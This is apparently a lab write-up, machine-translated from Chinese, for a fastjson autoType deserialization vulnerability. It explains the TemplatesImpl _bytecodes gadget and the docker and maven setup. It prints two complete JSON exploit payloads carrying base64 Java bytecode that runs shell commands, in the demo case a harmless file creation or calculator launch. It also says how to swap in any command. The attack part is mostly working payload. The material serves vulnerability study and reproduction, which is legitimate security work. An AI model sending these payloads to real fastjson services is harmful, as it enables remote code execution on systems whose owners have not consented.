


# fastjson Deserialization Causes Arbitrary Command Execution Vulnerabilities

## Principle

 - http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88% 97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/
 - https://github.com/shengqi158/fastjson-remote-code-execute-poc

In the process of parsing json, fastjson supports the use of autoType to instantiate a specific class and fill its property values ​​with json. The JDK comes with the class `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl` which has a private property `_bytecodes`, some of which execute the Java bytecode contained in this value.

So, if you want to execute arbitrary commands with the `_bytecodes` attribute of `TemplatesImpl`, there are several conditions:

1. The target website uses the fastjson library to parse json
2. `Feature.SupportNonPublicField` is set when parsing, otherwise incoming private property is not supported.
3. The `TemplatesImpl` class exists in the jdk used by the target.

Of course, there is no other way to use `TemplatesImpl`.

## Testing process

First compile and run the test environment:

```
Docker-compose build
Docker-compose up -d
```

The environment directory structure is as follows:

 - src project source code
   - main/java java class
     - IndexFilter.java web source
     - Poc.java POC source code
 - pom.xml configuration file, use maven to directly compile this project into a war package
 - exploit.php POC compiled byte code is read and converted into base64
 - fastjson-1.0.war packaged web environment, you can run directly under tomcat

### Step one, generate bytecode

The first step is to write a Java class that executes the commands in this class. Then compile the class, get the .class file, and get the bytecode.

Modify the command you want to execute in Poc.java, then use maven to compile the project in this directory and generate `target/classes/Poc.class`:

```
Mvn compile
```

If you don't have maven installed, you can also use `WEB-INF/classes/Poc.class` in the tarball of fastjson-1.0.war. Exploit.php is the read of this class file I have compiled.

### Step 2, Constructing POC

After generating the .class file, the content of the file is base64 encoded and placed in the location of the value of _bytecodes in json, as follows:

```
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["yv66vgAAADQANAoABwAlCgAmACcIACgKACYAKQcAKgoABQAlBwArAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAVMUG9jOwEACkV4Y2VwdGlvbnMHACwBAAl0cmFuc2Zvcm0BAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAJaGFGbmRsZXJzAQBCW0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7BwAtAQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYBAARhcmdzAQATW0xqYXZhL2xhbmcvU3RyaW5nOwEAAXQHAC4BAApTb3VyY2VGaWxlAQAIUG9jLmphdmEMAAgACQcALwwAMAAxAQAhb3BlbiAvQXBwbGljYXRpb25zL0NhbGN1bGF0b3IuYXBwDAAyADMBAANQb2MBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQATamF2YS9pby9JT0V4Y2VwdGlvbgEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAHAAAAAAAEAAEACAAJAAIACgAAAEAAAgABAAAADiq3AAG4AAISA7YABFexAAAAAgALAAAADgADAAAACwAEAAwADQANAAwAAAAMAAEAAAAOAA0ADgAAAA8AAAAEAAEAEAABABEAEgABAAoAAABJAAAABAAAAAGxAAAAAgALAAAABgABAAAAEQAMAAAAKgAEAAAAAQANAA4AAAAAAAEAEwAUAAEAAAABABUAFgACAAAAAQAXABgAAwABABEAGQACAAoAAAA/AAAAAwAAAAGxAAAAAgALAAAABgABAAAAFgAMAAAAIAADAAAAAQANAA4AAAAAAAEAEwAUAAEAAAABABoAGwACAA8AAAAEAAEAHAAJAB0AHgACAAoAAABBAAIAAgAAAAm7AAVZtwAGTLEAAAACAAsAAAAKAAIAAAAZAAgAGgAMAAAAFgACAAAACQAfACAAAAAIAAEAIQAOAAEADwAAAAQAAQAiAAEAIwAAAAIAJA=="],"_name":"a.b","_tfactory":{ },"_outputProperties":{ },"_version":"1.0","allowedProtocols":"all"}
```

If you want to use the .class file I have compiled, you can directly execute `php exploit.php` to get the POC:



I compiled with jdk1.8, the command executed is `touch /tmp/success`, so it will fail under Windows. Windows users should modify Poc.java to generate their own POC.

### Step 3, Exploiting

The target is a web application, and the access returns "Hello world". Normal POST a json, the target will extract the name and age in the json object into a single sentence to return:


Send the POC obtained in step 2 and execute the command successfully:

![/tmp/success file was successfully created] (1.png)

As shown above, the /tmp/success file was successfully created.

## Local test

The above test process is in docker, the command is `touch /tmp/success`, can not play the calculator, not intuitive enough.

To delve into the vulnerability, it is recommended to test it locally. Install maven locally (no need for tomcat and other web containers), compile and run this project:

```bash
#编译项目
Mvn compile

# Run IndexFilter: main function
Mvn exec:java -D exec.mainClass="IndexFilter"
```

The built-in HTTP Server of this project will listen to port 4567. So, change the command in Poc.java to open the calculator and generate the POC, and then POST to port 4567:

```
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["yv66vgAAADQANAcAAgEAA1BvYwcABAEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBAAY8aW5pdD4BAAMoKVYBAApFeGNlcHRpb25zBwAJAQATamF2YS9pby9JT0V4Y2VwdGlvbgEABENvZGUKAAMADAwABQAGCgAOABAHAA8BABFqYXZhL2xhbmcvUnVudGltZQwAEQASAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwgAFAEAIW9wZW4gL0FwcGxpY2F0aW9ucy9DYWxjdWxhdG9yLmFwcAoADgAWDAAXABgBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEABUxQb2M7AQAJdHJhbnNmb3JtAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgcAJwEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEACWhhRm5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEABG1haW4BABYoW0xqYXZhL2xhbmcvU3RyaW5nOylWBwAtAQATamF2YS9sYW5nL0V4Y2VwdGlvbgoAAQAMAQAEYXJncwEAE1tMamF2YS9sYW5nL1N0cmluZzsBAAF0AQAKU291cmNlRmlsZQEACFBvYy5qYXZhACEAAQADAAAAAAAEAAEABQAGAAIABwAAAAQAAQAIAAoAAABAAAIAAQAAAA4qtwALuAANEhO2ABVXsQAAAAIAGQAAAA4AAwAAAAsABAAMAA0ADQAaAAAADAABAAAADgAbABwAAAABAB0AHgABAAoAAABJAAAABAAAAAGxAAAAAgAZAAAABgABAAAAEQAaAAAAKgAEAAAAAQAbABwAAAAAAAEAHwAgAAEAAAABACEAIgACAAAAAQAjACQAAwABAB0AJQACAAcAAAAEAAEAJgAKAAAAPwAAAAMAAAABsQAAAAIAGQAAAAYAAQAAABYAGgAAACAAAwAAAAEAGwAcAAAAAAABAB8AIAABAAAAAQAoACkAAgAJACoAKwACAAcAAAAEAAEALAAKAAAAQQACAAIAAAAJuwABWbcALkyxAAAAAgAZAAAACgACAAAAGQAIABoAGgAAABYAAgAAAAkALwAwAAAACAABADEAHAABAAEAMgAAAAIAMw=="],"_name":"a.b","_tfactory":{ },"_outputProperties":{ },"_version":"1.0","allowedProtocols":"all"}
```

